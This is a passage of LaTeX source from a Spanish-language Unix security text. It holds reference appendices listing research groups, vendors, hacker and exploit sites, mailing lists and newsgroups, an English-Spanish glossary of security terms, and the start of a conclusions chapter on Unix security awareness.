{\tt http://www.esat.kuleuven.ac.be/cosic/cosic.html}
\item Computer Security Group, Carleton University (CA):\\
{\tt http://www.scs.carleton.ca/\~{}csgs/resources/crypt.html}
\item Laboratory for Theoretical and Quantum Computing, University of Montreal (CA):\\
{\tt http://www.iro.umontreal.ca/labs/theorique/index$\_$en.html}
\item Information Security and Cryptography Research Group, ETH Zurich (CH):\\
{\tt http://www.inf.ethz.ch/department/TI/um/group.html}
\item Crypto Group, Katholieke Universiteit Leuven (DE):\\
{\tt http://www.esat.kuleuven.ac.be/cosic/cosic.html}
\item E.I.S.S., Karlsruhe Universiteit (DE):\\
{\tt http://iaks-www.ira.uka.de/indexe.html}
\item Security in Computer Networks Group, Hildesheim Universiteit (DE):\\
{\tt http://www.informatik.uni-hildesheim.de/\~{}sirene/}
\item Groupe de Recherche en Complexit\'e et Cryptographie, \'Ecole Normale 
Sup\'erieure (FR):\\
{\tt http://www.ens.fr/\~{}grecc/index$\_$en.html}
\item Cryptographic Research Center, FER Zagreb (Croatia, HR):\\
{\tt http://pgp.rasip.fer.hr/}
\item TAO Yokohama Research Center (JP):\\
{\tt http://www.yokohama.tao.or.jp/}
\item Information \& Communications Security Laboratory, Sung Kyun Kwan University (KR):\\
{\tt http://dosan.skku.ac.kr/}
\item \'Area de seguridad en c\'omputo, UNAM (MX):\\
{\tt http://www.asc.unam.mx/}
\item Laboratory for Computer Security and Security Informatics, University of Stockholm (SE):\\
{\tt http://www.dsv.su.se/research/seclab/seclab.html}
\item Information Security Group, University of London (UK):\\
{\tt http://isg.rhbnc.ac.uk/ISG$\_$Home$\_$Page.html}
\item Computer Security Group, Cambridge University (UK):\\
{\tt http://www.cl.cam.ac.uk/Research/Security/}
\item Computer Security Research Centre, London School of Economics \& Political Science (UK):\\
{\tt http://csrc.lse.ac.uk/}
\item COAST Project, Purdue University (USA):\\
{\tt http://www.cerias.purdue.edu/coast/}
\item Computer Security Research Laboratory, University of California (USA):\\
{\tt http://seclab.cs.ucdavis.edu/}
\item Network Security Center, University of Chicago (USA):\\
{\tt http://security.uchicago.edu/}
\item Secure Internet Programming Laboratory, Princeton University (USA):\\
{\tt http://www.cs.princeton.edu/sip/}
\item Information Systems Audit and Control Research, CalPoly Pomona (USA):\\
{\tt http://www.csupomona.edu/bus/cis/isworld.html}
\item Crypto Research, Worchester Polytechnic (USA):\\
{\tt http://ece.wpi.edu/Research/crypt.html}
\item Computer Security Research, Iowa State University (USA):\\
{\tt http://vulcan.ee.iastate.edu/issl.html}
\item Defense Science Study Group, University of Virginia (USA):\\
{\tt http://www.cs.virginia.edu/\~{}robins/dssg/}
\item Cyberspace Policy Institute, George Washington University (USA):\\
{\tt http://www.cpi.seas.gwu.edu/}
\item Computer Security Research, University of Idaho (USA):\\
{\tt http://www.cs.uidaho.edu/\~{}frincke/research/uidahoSecurity.html}
\item International Cryptography Institute, Georgetown (USA):\\
{\tt http://www.cosc.georgetown.edu/\~{}denning/crypto/}
\item Security Technology Research Group, Univ. Maryland Baltimore Campus (USA):\\
{\tt ftp://ftp.cs.umbc.edu/pub/WWW/crypto/index.html}
\item Center for Secure Information Systems, George Mason University (USA):\\
{\tt http://www.isse.gmu.edu/\~{}csis/}
\item Center for Cryptography Computer and Network Security, University of Wisconsin (USA):\\
{\tt http://www.cs.uwm.edu/\~{}cccns/}
\item Cryptography and Information Security Group, MIT (USA):\\
{\tt http://theory.lcs.mit.edu/\~{}cis/}
\item Security Tools, Texas A\&M University (USA):\\
{\tt http://net.tamu.edu/pub/security/TAMU/}
\end{itemize}
\section{Criptograf\'{\i}a}
\begin{itemize}
\item The Internet Guide to Cryptography: {\tt http://www.enter.net/\~{}chronos/cryptolog.html}
\item Beginner\'{}s Guide to Cryptography: {\tt http://www.ftech.net/\~{}monark/crypto/main.hts}
\item A--Z Cryptology!: {\tt http://www.achiever.com/freehmpg/cryptology/crypto.html}
\item European Cryptography Resources: {\tt http://www.iki.fi/avs/eu-crypto.html}
\item Cryptography Research: {\tt http://www.cryptography.com/}
\item Cryptolinks: {\tt http://www.cs.umbc.edu/\~{}stephens/other.html}
\item International Cryptography: {\tt http://www.cs.hut.fi/ssh/crypto/}
\item Steganography and Digital Watermarking:\\
{\tt http://www.patriot.net/users/johnson/html/neil/sec/steg.html}
\item Cryptography and Computer Security: {\tt http://www.ulb.ac.be/di/scsi/defscsi.html}
\item CryptoWeb: {\tt http://itrc.on.ca/CryptoWeb/}
\item Cryptography Technical Report Server: {\tt http://www.itribe.net/CTRS/}
\item Ron Rivest Home Page: {\tt http://theory.lcs.mit.edu/\~{}rivest/}
\item Steganography Info and Archive: {\tt http://www.iquest.net/\~{}mrmil/stego.html}
\item Shortcut to Cryptography: {\tt http://www.subject.com/crypto/crypto.html}
\item Steganography and Digital Watermarking: 
{\tt http://www.jjtc.com/Steganography/}
\item SKIP -- IP level encryption: {\tt http://www.skip.org/}
\item Cyphernomicon: {\tt http://www.oberlin.edu/\~{}brchkind/cyphernomicon/}
\item Cypherpunks\'{}s Home Page: {\tt http://www.csua.berkeley.edu/cypherpunks/Home.html}
\item Cryptography for encryption, signatures and authentication:\\
{\tt http://www.ozemail.com.au/\~{}firstpr/crypto/index.html}
\item The Cryptography Project: {\tt http://www.cosc.georgetown.edu/\~{}denning/crypto/}
\item Quadralay Cryptography Archive: {\tt http://www.austinlinks.com/Crypto/}
\end{itemize}
\section{Seguridad general}
\begin{itemize}
\item Computer Security Portal: {\tt http://www.infosyssec.net/}
\item Security Paradigm Information Protection: {\tt http://www.securityparadigm.com/}
\item CyberSeguridad: {\tt http://www.cyberseguridad.org/}
\item The Encyclopaedia of Computer Security: {\tt http://www.itsecurity.com/}
\item SecurityFocus: {\tt http://www.securityfocus.com/}
\item PacketStorm: {\tt http://packetstorm.securify.com/}
\item SecurityPortal: {\tt http://www.securityportal.com/}
\item SecurityWatch: {\tt http://www.securitywatch.com/}
\item NetSecurity: {\tt http://net-security.org/}
\end{itemize}
\section{Compa\~n\'{\i}as y grupos de desarrollo}
\subsection{Unix}
\begin{itemize}
\item Sun Microsystems: {\tt http://www.sun.com/}
\item Hewlett Packard: {\tt http://www.hp.com/}
\item Slackware: {\tt http://www.slackware.org/}
\item Debian: {\tt http://www.debian.org/}
\item Red Hat Software, Inc.: {\tt http://www.redhat.com/}
\item QNX Software Systems Ltd.: {\tt http://www.qnx.com/}
\item S.u.S.E.: {\tt http://www.suse.com/}
\item Caldera Systems, Inc.: {\tt http://www.calderasystems.com/}
\item Digital Equipment Corporation: {\tt http://www.digital.com/}
\item Berkeley Software Design, Inc.: {\tt http://www.bsdi.com/}
\item The FreeBSD Project: {\tt http://www.freebsd.org/}
\item The OpenBSD Project: {\tt http://www.openbsd.org/}
\item The NetBSD Project: {\tt http://www.netbsd.org/}
\item The TrustedBSD Project: {\tt http://www.trustedbsd.org/}
\item System V: {\tt http://www.systemv.com/}
\item Santa Cruz Operation: {\tt http://www.sco.com/}
\item Silicon Graphics, Inc.: {\tt http://www.sgi.com/}
\item Cray Research, Inc.: {\tt http://www.cray.com/}
\item Be, Inc.: {\tt http://www.be.com/}
\item Minix: {\tt http://www.cs.vu.nl/\~{}ast/minix.html}
\item Lynx Real-Time Systems Inc.: {\tt http://www.lynx.com/}
\item NeXT, Inc.: {\tt http://www.next.com/}
\item Convex Computer Corp.: {\tt http://www.convex.com/}
\item Unisys: {\tt http://www.unisys.com/}
\item Acorn Computer Group plc.: {\tt http://www.acorn.co.uk/}
\end{itemize}
\subsection{General}
\begin{itemize}
\item RSA Data Security, Inc.: {\tt http://www.rsa.com/}
\item Counterpane Systems: {\tt http://www.counterpane.com/}
\item Cisco Systems: {\tt http://www.cisco.com/}
\item 3Com Corporation: {\tt http://www.3com.com/}
\item Digicrime, Inc. {\tt http://www.digicrime.com/}
\item CheckPoint Software Technologies: {\tt http://www.checkpoint.com/}
\item IriScan: {\tt http://www.iriscan.com/}
\item EyeDentify: {\tt http://www.eyedentify.com/}
\item DataCard: {\tt http://www.datacard.com/}
\item Security Defense Systems: {\tt http://www.securitydefense.com/}
\item Axent Technologies: {\tt http://www.axent.com/}
\item Bellcore Security Products: {\tt http://www.bellcore.com/SECURITY/security.html}
\item Internet Security Systems, Inc.: {\tt http://www.iss.net/}
\item Network Flight Recorder, Inc.: {\tt http://www.nfr.net/}
\item Psionic Software, Inc: {\tt http://www.psionic.com/}
\item SecureWare, Inc.: {\tt http://www.secureware.com/}
\item Lucent Technologies: {\tt http://www.lucent.com/}
\item Network Associates, Inc.: {\tt http://www.nai.com/}
\item Security Dynamics Technologies: {\tt http://www.securid.com/}
\item VeriSign, Inc.: {\tt http://www.verisign.com/}
\item Trusted Information Systems, Inc.: {\tt http://www.tis.com/}
\item CryptoCard Corp.: {\tt http://www.cryptocard.com/}
\item PGP, Inc.: {\tt http://www.pgp.com/}
\item ViaCrypt: {\tt http://www.viacrypt.com/}
\end{itemize}
\section{Sitios {\it underground}}
\subsection{Grupos}
\begin{itemize}
\item L0pht Heavy Industries: {\tt http://www.l0pht.com/}
\item $[$THC$]$ -- The Hacker\'{}s Choice: {\tt http://thc.pimmel.com/}
\item The Cult of the Dead Cow: {\tt http://www.cultdeadcow.com/}
\item Chaos Computer Club: {\tt http://www.ccc.de/}
\item !Hispahack: {\tt http://hispahack.ccc.de/}
\item Underground ORG: {\tt http://underground.org/}
\item Rhino9 - Security Research Team: {\tt http://rhino9.technotronic.com/}
\item r00t: {\tt http://www.r00t.org/}
\item Els Apostols: {\tt http://www.apostols.org/}
\item HERT Computer Security Research: {\tt http://www.hert.org/}
\item Blackbrains Team: {\tt http://www.blackbrains.org/}
\item 8LGM Group: {\tt http://www.8lgm.org/}
\item Rhino9: Security Research Team: {\tt http://207.98.195.250/}
\end{itemize}
\subsection{{\it Exploits} y vulnerabilidades}
\begin{itemize}
\item RootShell: {\tt http://www.rootshell.com/}
\item No more secrets: {\tt http://underground.org/}
\item Exploits and Tools: {\tt http://www.hha.net/hha/exploits/}
\item AntiOnline Hacking and Hacker Site: {\tt http://www.antionline.com/}
\item Insecure ORG: {\tt http://www.insecure.org/}
\item Hackers HomePage: {\tt http://www.hackershomepage.com/}
\end{itemize}
\section{Recursos en Espa\~na}
\begin{itemize}
\item Kriptopolis: {\tt http://www.kriptopolis.com/}
\item Criptonomicon: {\tt http://www.iec.csic.es/criptonomicon/}
\item Guardia Civil: {\tt http://www.guardiacivil.org/} 
\item AECSI: {\tt http://aecsi.rediris.es/}
\item esCERT: {\tt http://escert.upc.es/}
\item IrisCERT: {\tt http://www.rediris.es/cert/}
\item Hispasec: {\tt http://www.hispasec.com/}
\item CriptoRed: {\tt http://www.lpsi.eui.upm.es/criptored/criptored.htm}
\item Recursos Criptolog\'{\i}a en Espa\~na: {\tt http://bbs.seker.es/\~{}alvy/cripto.html}
\item A.C.E.: {\tt http://www.ace.es/}
\end{itemize}
\section{Listas de correo}
\begin{itemize}
\item BUGTRAQ:\\
Sin duda la mejor lista de seguridad inform\'atica que existe en la actualidad.
Es {\bf imprescindible} suscribirse a ella, especialmente en el caso de 
administradores de sistemas Unix. Para hacerlo se ha de enviar un correo 
electr\'onico a {\tt listserv@lists.securityfocus.com} indicando en el {\bf 
cuerpo} del mensaje {\tt `subscribe bugtraq nombre'}.
\item Best of Security:\\
Lista con un gran volumen de tr\'afico donde se trata de sacar a la luz {\bf
cualquier} problema de seguridad en el m\'{\i}nimo tiempo posible, muchas
veces con mensajes duplicados o reenv\'{\i}os directos de otras listas; no
es moderada. Para suscribirse, se ha de enviar un correo a {\tt 
best-of-security-request@suburbia.net} indicando en el {\bf cuerpo} {\tt 
`subscribe best-of-security'}.
\item Linux Security:\\
Lista sin mucho tr\'afico en la que se tratan problemas de seguridad 
espec\'{\i}ficos de Linux. Para suscribirse es necesario enviar un correo a
{\tt linux-security-request@redhat.com} indicando {\tt `subscribe'} en el
{\bf subject} (asunto) del mensaje.
\item Linux Alert:\\
Lista similar a la anterior pero donde se env\'{\i}an problemas de seguridad
urgentes (alertas) relativos a Linux; para suscribirse, enviar un {\it e-mail}
a {\tt linux-alert-request@redhat.com} indicando {\tt `subscribe'} en su
{\bf subject}.
\item Computer Privacy Digest:\\
Lista moderada donde se tratan temas relacionados con la tecnolog\'{\i}a y la
privacidad. Para suscribirse se ha de enviar un {\it e-mail} a {\tt 
comp-privacy-request@uwm.edu} indicando {\tt \\
`subscribe cpd'} en el {\bf cuerpo} del mensaje.
\item Computer Underground Digest:\\
En esta lista se trata cualquier tema relativo al {\it underground} 
inform\'atico; para suscribirse, enviar un correo a {\tt 
cu-digest-request@weber.ucsd.edu} indicando en el {\bf cuerpo} del mismo
{\tt `sub cudigest'}.
\item Firewalls:\\
Como su nombre indica, en esta lista de correo se discuten temas relacionados
con los cortafuegos y sus implicaciones de seguridad. Para suscribirse hay que
enviar un {\it e-mail} a {\tt majordomo@lists.gnac.net} indicando en el {\bf
cuerpo} del mensaje {\tt `subscribe firewalls'}.
\item Intrusion Detection Systems:\\
Lista muy interesante, dedicada a discutir aspectos relativos a los sistemas de 
detecci\'on de intrusos. Para suscribirse es necesario enviar un correo
electr\'onico a {\tt majordomo@uow.edu.au} indicando {\tt `subscribe ids'} en 
el {\bf cuerpo} del mismo.
\item CERT:\\
Lista del CERT, con muy poco tr\'afico y -- en general -- poco \'util, ya que
cualquier problema de seguridad es tratado mucho antes en otros foros de 
discusi\'on. Para suscribirse hay que enviar un correo a {\tt cert@cert.org}
indicando {\tt `I want to be on your mailing list'} en el {\bf cuerpo} del
mismo.
\item WWW Security:\\
Lista moderada dedicada a la seguridad de los servidores {\it web}. Para 
suscribirse hay que enviar un correo electr\'onico a {\tt 
www-security-request@nsmx.rutgers.edu} indicando {\tt `subscribe www-security
direccion@de.correo'} en su {\bf cuerpo}.
\item Alert:\\
Lista moderada en la que se tratan vulnerabilidades, intrusiones, productos
y herramientas de seguridad\ldots Para suscribirse se ha de enviar un {\it
e-mail} a {\tt majordomo@iss.net} indicando {\tt `subscribe alert'} en el {\bf
cuerpo} del mensaje.
\item Risks:\\
Lista dedicada a la discusi\'on de los riesgos que implican las nuevas 
tecnolog\'{\i}as en la sociedad moderna. Para suscribirse hay que enviar un
correo a {\tt risks-request@csl.sri.com} indicando en su {\bf cuerpo} {\tt 
`subscribe'}.
\item University Info Security Forum:\\
Lista no moderada donde se trata cualquier tema relacionado con la seguridad
inform\'atica en entornos de educaci\'on o I+D. Para suscribirse es necesario
enviar un {\it e-mail} a\\ {\tt listserv@cuvmc.ais.columbia.edu} indicando {\tt
`subscribe uninfsec'} en el cuerpo del mismo.
\item Sneakers:\\
En esta lista se tratan temas relativos a la evaluaci\'on y testeo legal de
diferentes mecanismos de seguridad en redes, especialmente de cortafuegos. Para
suscribirse hay que enviar un correo a {\tt majordomo@cs.yale.edu} indicando
{\tt `subscribe sneakers'} en el {\bf cuerpo} del mismo.
\item Cypherpunks:\\
Lista con un gran volumen de mensajes dedicada a la discusi\'on t\'ecnica de la 
privacidad personal en la red. Para suscribirse, enviar un correo a {\tt
majordomo@toad.com} indicando en el {\bf cuerpo} {\tt `subscribe 
cypherpunks-unedited'}.
\item Cryptobytes:\\
Lista sobre criptograf\'{\i}a, de Cryptobytes (RSA), con un escaso volumen de
mensajes. Para suscribirse hay que enviar un {\it e-mail} a {\tt 
majordomo@rsa.com} indicando {\tt `subscribe\\ cryptobytes'} en el {\bf cuerpo}
del mismo.
\item Stegano-L:\\
Lista dedicada a la esteganograf\'{\i}a; para suscribirse hay que enviar correo
electr\'onico a {\tt \\ stegano-l-request@as-node.jena.thur.de} indicando en
el {\bf cuerpo} del mismo {\tt `sub\\ stegano-l direccion@de.correo'}.
\item esCERT:\\
Lista abierta y moderada de IrisCERT, en castellano, donde se tratan problemas 
de seguridad
gen\'ericos en redes y sistemas operativos. Para suscribirse hay que visitar la
siguiente direcci\'on:\\
{\tt http://listserv.rediris.es/archives/cert-es.html}
\item Cripto Foro:\\
Esta lista presenta un foro de discusi\'on sobre temas relacionados con el 
cifrado de datos en Espa\~na. No se suelen plantear dudas de car\'acter 
t\'ecnico, sino m\'as bien se habla de conferencias, convenciones\ldots Para
suscribirse hay que enviar un {\it e-mail} a {\tt 
cripto$\_$foro-request@fi.upm.es} indicando {\tt `subscribe cripto$\_$foro'} en 
el {\bf cuerpo} del mismo.
\item Hacking:\\
Lista moderada de {\it hacking} en castellano. Para suscribirse es necesario
enviar un
correo electr\'onico a {\tt majordomo@argo.es} indicando {\tt `subscribe 
hacking'} en el {\bf cuerpo} del mismo.
\end{itemize}
{\bf NOTA:} En {\tt http://xforce.iss.net/maillists/otherlists.php3} tenemos 
excelente informaci\'on de las mejores listas de seguridad, c\'omo suscribirse,
c\'omo participar\ldots Esta secci\'on est\'a ampliamente basada en esa 
p\'agina.
\section{Grupos de noticias}
\subsection{Criptolog\'{\i}a}
\begin{itemize}
\item {\tt alt.security.keydist}
\item {\tt alt.security.pgp}
\item {\tt alt.security.pgp.announce}
\item {\tt alt.security.pgp.discuss}
\item {\tt alt.security.pgp.resources}
\item {\tt alt.security.pgp.tech}
\item {\tt alt.security.pgp.test}
\item {\tt alt.privacy.clipper}
\item {\tt comp.risks}
\item {\tt comp.security.ssh}
\item {\tt sci.crypt}
\item {\tt sci.crypt.research}
\item {\tt talks.politics.crypto}
\end{itemize}
\subsection{Unix}
\begin{itemize}
\item {\tt alt.os.linux}
\item {\tt alt.solaris.x86}
\item {\tt alt.unix.wizards}
\item {\tt comp.admin.policy}
\item {\tt comp.security.unix}
\item {\tt comp.unix.admin}
\item {\tt comp.unix.internals}
\item {\tt comp.unix.programmer}
\item {\tt comp.unix.solaris}
\item {\tt linux.dev.admin}
\end{itemize}
\subsection{Redes}
\begin{itemize}
\item {\tt comp.protocols.kerberos}
\item {\tt comp.protocols.tcp-ip}
\item {\tt comp.security.firewalls}
\end{itemize}
\subsection{Misc}
\begin{itemize}
\item {\tt alt.2600}
\item {\tt alt.comp.virus}
\item {\tt alt.disasters.planning}
\item {\tt alt.hackers}
\item {\tt alt.hackers.malicious}
\item {\tt alt.hacking}
\item {\tt alt.security}
\item {\tt alt.security.alarms}
\item {\tt alt.security.index}
\item {\tt comp.security}
\item {\tt comp.security.announce}
\item {\tt comp.security.misc}
\item {\tt comp.virus}
\item {\tt misc.security}
\end{itemize}

\cleardoublepage
\chapter{Glosario de t\'erminos anglosajones}
\begin{center}
{\large {\bf -- A --}}\\
\end{center}
{\bf Access Control List}: Lista de Control de Acceso (ACL).\\
{\bf Accountability}: Capacidad de ser registrado.\\
{\bf Aging Password}: Envejecimiento de contrase\~nas.\\
{\bf Anomaly Detection}: Detecci\'on de anomal\'{\i}as.\\
{\bf Audit Trail}: Registro de auditor\'{\i}a.\\
{\bf Authentication by assertion}: Autenticaci\'on por declaraci\'on.\\
{\bf Availability}: Disponibilidad.\\
\begin{center}
{\large {\bf -- B --}}\\
\end{center}
{\bf Back Door}: Puerta trasera.\\
{\bf Backup}: Copia de seguridad.\\
{\bf Backup level}: Nivel de copia de seguridad.\\
{\bf Backup plan}: Plan de contingencia.\\
{\bf Buffer Overflow}: Desbordamiento de pila, desbordamiento de {\it buffer}.\\
{\bf Buggy Software}: {\it Software} incorrecto.\\
{\bf Bug}: Agujero.\\
\begin{center}
{\large {\bf -- C --}}\\
\end{center}
{\bf Confidentiality}: Confidencialidad.\\
{\bf Confinement Channel}: Canal cubierto u oculto.\\
{\bf Contingency plan}: Plan de contingencia.\\
{\bf Covert Channel}: Canal cubierto u oculto.\\
{\bf Covert storage channel}: Canal oculto de almacenamiento.\\
{\bf Covert timing channel}: Canal oculto de temporizaci\'on.\\
{\bf Cryptoperiod}: Tiempo de expiraci\'on de clave, vigencia de clave.\\
\begin{center}
{\large {\bf -- D --}}\\
\end{center}
{\bf De--Militarized Zone}: Zona desmilitarizada, red perim\'etrica (DMZ).\\
{\bf Denial of Service}: Negaci\'on de servicio (DoS).\\
{\bf Dependability}: Confiabilidad.\\
{\bf Discretionary Access Control}: Control de accesos discrecional (DAC).\\
{\bf Dual control}: Conocimiento parcial.\\
\begin{center}
{\large {\bf -- E --}}\\
\end{center}
{\bf Eavesdropping}: Fisgoneo, interceptaci\'on.\\
{\bf Entrapment}: Trampeado.\\
\begin{center}
{\large {\bf -- F --}}\\
\end{center}
{\bf Fault}: Fallo.\\
{\bf Firewall}: Cortafuegos.\\
\begin{center}
{\large {\bf -- G --}}\\
\end{center}
{\bf Group Identifier}: Identificador de grupo (GID).\\
\begin{center}
{\large {\bf -- H --}}\\
\end{center}
{\bf Hash Function}: Funci\'on resumen.\\
{\bf Honeypot}: Tarro de miel, sistema de decepci\'on.\\
{\bf Host authentication}: Autenticaci\'on por m\'aquina.\\
{\bf Host--based IDS}: Sistema de detecci\'on de intrusos basado en m\'aquina.\\
\begin{center}
{\large {\bf -- I --}}\\
\end{center}
{\bf Impersonation}: Falseamiento, enmascaramiento.\\
{\bf Integrity}: Integridad.\\
{\bf Intrusion Detection System}: Sistema de detecci\'on de intrusos (IDS).\\
{\bf Isolation}: Aislamiento.\\
\begin{center}
{\large {\bf -- J --}}\\
\end{center}
{\bf Jailing}: Encarcelamiento.\\
\begin{center}
{\large {\bf -- L --}}\\
\end{center}
{\bf Leakage}: Filtraci\'on.\\
{\bf Log File Monitor}: Monitor de registros (LFM).\\
{\bf Logic Bomb}: Bomba l\'ogica.\\
\begin{center}
{\large {\bf -- M --}}\\
\end{center}
{\bf Malware}: {\it Software} malicioso.\\
{\bf Mandatory Access Control}: Control de accesos obligatorio (MAC).\\
{\bf Masquerade}: Mascarada, enmascaramiento.\\
{\bf Mimicking}: Falseamiento, enmascaramiento.\\
{\bf Misuse Detection}: Detecci\'on de usos indebidos.\\
{\bf Multilevel security}: Seguridad multinivel (MLS).\\
\begin{center}
{\large {\bf -- N --}}\\
\end{center}
{\bf Need to know}: Necesidad de saber.\\
{\bf Network--based IDS}: Sistema de detecci\'on de intrusos basado en red.\\
{\bf Notarization}: Certificaci\'on.\\
\begin{center}
{\large {\bf -- O --}}\\
\end{center}
{\bf One Time Password}: Clave de un solo uso, clave de uso \'unico (OTP).\\
\begin{center}
{\large {\bf -- P --}}\\
\end{center}
{\bf Passive Wiretapping}: Fisgoneo, interceptaci\'on.\\
{\bf Password}: Clave, contrase\~na.\\
{\bf Patch}: Parche.\\
{\bf Pattern Matching}: Comparaci\'on y emparejamiento de patrones.\\
{\bf Personal Identification Number}: N\'umero de identificaci\'on personal (PIN).\\
{\bf Plausible Deniability}: Negaci\'on creible.\\
{\bf Privacy}: Privacidad.\\
\begin{center}
{\large {\bf -- R --}}\\
\end{center}
{\bf Rabbit Programs}: Programas conejo.\\
{\bf Race Conditions}: Condiciones de carrera.\\
{\bf Reliability}: Confiabilidad.\\
{\bf Replay attack}: Ataque por reenv\'{\i}o o reproducci\'on.\\
{\bf Round down}: Redondeo hacia abajo.\\
\begin{center}
{\large {\bf -- S --}}\\
\end{center}
{\bf Safety}: Seguridad (entendida como tolerancia a fallos).\\
{\bf Scavenging}: Basureo.\\
{\bf Security policy}: Pol\'{\i}tica de seguridad.\\
{\bf Security}: Seguridad.\\
{\bf Shadow Password}: Oscurecimiento de contrase\~nas.\\
{\bf Snooping}: Fisgoneo.\\
{\bf Social Engineering}: Ingenier\'{\i}a Social.\\ 
{\bf Source Routing}: Encaminamiento en origen.\\
{\bf Source Suppressed}: Fuente eliminada.\\
{\bf Spoofing}: Falseamiento, enmascaramiento.\\
{\bf Stack Smashing}: Desbordamiento de pila.\\
{\bf Sticky bit}: Bit de permanencia.\\
{\bf System Integrity Verifier}: Verificador de integridad del sistema (SIV).\\
\begin{center}
{\large {\bf -- T --}}\\
\end{center}
{\bf Tampering}: Adulteraci\'on.\\
{\bf Threat}: Amenaza.\\
{\bf Tiger Team}: Grupo o equipo Tigre.\\
{\bf Token authentication}: Autenticaci\'on por testigo.\\
{\bf Trap Door}: Puerta Trasera.\\
{\bf Trashing}: Basureo.\\
{\bf Trojan Horse}: Caballo de Troya.\\
{\bf Trojan Mule}: Mula de Troya.\\
{\bf Trusted Communication Path}: Ruta de comunicaci\'on fiable (TCP).\\
{\bf Trusted Computing Base}: Base segura o fiable de c\'omputo (TCB).\\
{\bf Trusted Unix}: Unix fiable.\\
{\bf Trustworthiness}: Fiabilidad.\\
\begin{center}
{\large {\bf -- U --}}\\
\end{center}
{\bf Uninterruptible Power Supplies (UPS)}: Servicio de Alimentaci\'on Ininterrumpido (SAI).\\
{\bf User Identifier}: Identificador de usuario (UID).\\
\begin{center}
{\large {\bf -- V --}}\\
\end{center}
{\bf Virtual Private Network}: Red Privada Virtual (VPN).\\
\begin{center}
{\large {\bf -- W --}}\\
\end{center}
{\bf Wiretapping}: Interceptaci\'on.\\
{\bf Worm}: Gusano.\\
\begin{center}
{\large {\bf -- Z --}}\\
\end{center}
{\bf Zeroization}: Puesta a cero.\\

\cleardoublepage
\backmatter
\chapter{Conclusiones}
Si despu\'es de aproximadamente 500 hojas de trabajo, con m\'as de 300 
referencias
bibliogr\'aficas citadas, a\'un hay alguien que considere a Unix 
un sistema inseguro existen dos opciones: o se e\-qui\-vo\-ca \'el o me 
equivoco yo. 
Seguramente que me equivoque yo no ser\'{\i}a dif\'{\i}cil; lo realmente 
extra\~no es que se hayan equivocado todos los expertos que 
durante a\~nos -- algunos desde antes de que muchos de nosotros hubi\'eramos 
nacido -- han venido aportando su tiempo, su talento y sus conocimientos al 
mundo de la seguridad inform\'atica (por supuesto, hablo de expertos de
verdad, no de {\it hackers}, {\it crackers}, o como ahora se quiera llamar a los
piratas), una materia que d\'{\i}a a d\'{\i}a va demostrando su importancia en 
todo tipo de organizaciones. Como es bastante dif\'{\i}cil que toda esta gente 
se haya 
equivocado, ser\'{\i}a conveniente que el que a\'un a estas alturas dude de las 
posibilidades de Unix (en cuanto a seguridad se refiere, aunque podr\'{\i}amos
hablar de posibilidades en general) con respecto a otros sistemas se replantee
sus ideas.\\
\\En este proyecto se han revisado las bases m\'as importantes de la seguridad
en Unix y redes; evidentemente, muchas cosas se han quedado en el tintero, y
otras muchas no han sido comentadas con la profundidad que sin duda merecen. Se
han intentado ofrecer ejemplos aplicados a entornos que no precisan de una alta 
seguridad, pero s\'{\i} de una seguridad m\'{\i}nima, como es el caso de las 
redes de I+D, las de medianas empresas, y las de ISPs. El trabajo se ha 
dividido en seis grandes partes;
en la primera (seguridad del entorno de operaciones) se habla de las 
implicaciones de seguridad (e inseguridad) relacionadas con la simple existencia
de un sistema, Unix o no, en un entorno de trabajo: su ubicaci\'on f\'{\i}sica,
las personas que le rodean\ldots Una segunda parte es la relacionada con la
seguridad de la m\'aquina en s\'{\i}, sin conexi\'on a red, y todos los 
problemas que nos podemos encontrar en esta situaci\'on, y la tercera habla de
peculiaridades tambi\'en a nivel de {\it host} de diferentes clones de Unix; 
como los sistemas 
aislados son cada d\'{\i}a m\'as extra\~nos, la cuarta parte (seguridad de la
subred) introduce algunos de los peligros (y sus soluciones) que no 
exist\'{\i}an en m\'aquinas sin conectar a una red. A continuaci\'on, una 
quinta parte 
habla de otros aspectos relacionados con la seguridad de un equipo, algunos de 
los cuales son las bases para comprender muchas de las cosas que se explican en
el trabajo (por ejemplo, la criptolog\'{\i}a). Para terminar, en la sexta
parte del proyecto, ya como ap\'endices, se presenta un escueto resumen de 
normas de seguridad
a modo de `receta de cocina' para administradores, algunas normativas vigentes
en Espa\~na relacionadas con los sistemas inform\'aticos y su (in)seguridad, una
referencia de recursos relacionados con esta materia en Internet, y finalmente
un peque\~no glosario de t\'erminos anglosajones utilizados con frecuencia en
el mundo de la seguridad en Unix.\\
\\A pesar del elevado nivel de seguridad que Unix puede ofrecer (al menos espero
que haya quedado patente que Unix es el sistema operativo de prop\'osito general
m\'as seguro hoy en d\'{\i}a) cualquiera que se diera una vuelta, f\'{\i}sica o 
virtual, por la mayor\'{\i}a de entornos `normales' en Espa\~na
podr\'{\i}a comprobar que su seguridad es en la mayor parte de los casos pobre, 
cuando no inexistente. Si Unix es te\'oricamente tan seguro, >por qu\'e en la
pr\'actica cualquier aprendiz de pirata es capaz de `colarse' en servidores de 
todo tipo?, >d\'onde est\'a el problema? El problema no radica en Unix: radica 
en las personas que est\'an detr\'as del sistema operativo, generalmente 
administradores y usuarios de cualquier categor\'{\i}a. Unix ofrece los 
mecanismos suficientes como para conseguir un nivel de seguridad m\'as que 
aceptable, pero somos nosotros los que en muchos
casos no sabemos aprovecharlos. Para solucionar el problema, como ya hemos
comentado a lo largo del proyecto, existen dos soluciones que todos 
deber\'{\i}amos intentar aplicar: en primer lugar la {\bf concienciaci\'on} de
los problemas que nos pueden acarrear los fallos de seguridad (a muchos a\'un
les parece que el tema no va con ellos, que los piratas inform\'aticos s\'olo
existen en el cine, y que en su m\'aquina nada malo puede ocurrir). Tras la
concienciaci\'on, es necesaria una {\bf formaci\'on} adecuada a cada tipo de
persona (e\-vi\-den\-te\-men\-te no podemos exigir los mismos conocimientos a 
un administrador responsable de varias m\'aquinas que a un usuario que s\'olo 
conecta al sistema para lanzar simulaciones); no es necesario convertirse en un
experto, simplemente hay que leer un poco y conocer unas normas b\'asicas (por 
ejemplo, las presentadas en el ap\'endice A\ldots si alguien argumenta que no 
tiene tiempo para leer quince hojas, seguramente est\'a mintiendo). Con estos
dos pasos seguramente no pararemos a todos los piratas que nos intenten atacar,
pero s\'{\i} a la gran mayor\'{\i}a de ellos, que es lo que realmente interesa 
en el mundo de la seguridad.\\
\\Aparte del l\'ogico incremento en el nivel de seguridad que se 
conseguir\'{\i}a mediante una m\'{\i}nima concienciaci\'on y formaci\'on de los 
usuarios de Unix, existe un escollo que estas dos medidas dif\'{\i}cilmente nos
